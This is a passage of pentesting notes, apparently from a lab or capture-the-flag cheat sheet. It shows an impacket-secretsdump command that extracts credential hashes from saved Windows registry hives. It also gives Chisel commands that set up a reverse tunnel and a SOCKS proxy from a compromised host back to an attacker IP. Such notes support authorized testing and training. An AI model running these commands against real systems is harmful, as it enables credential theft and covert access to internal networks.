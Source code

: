 On attacker Linux machine:
```
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL > secrets.out
```
## Chisel proxying
Just an example on how to set up a Socks proxy to chisel over a compromised host.

On attacker machine (Linux or Windows):
```
./chisel server -p 8888 --reverse
```

On target:
```
.\chisel_windows_386.exe client 10.10.16.7:8888 R:8001:127.0.0.1:9001
```

Now we are listening on localhost:8001 on our attacking machine to forward that traffic to target:9001.
Then, open the Socks server. On target:
```
.\chisel_windows_386.exe server -p 9001 --socks5
```

On attacking machine:
```
./chisel client localhost:8001 socks
```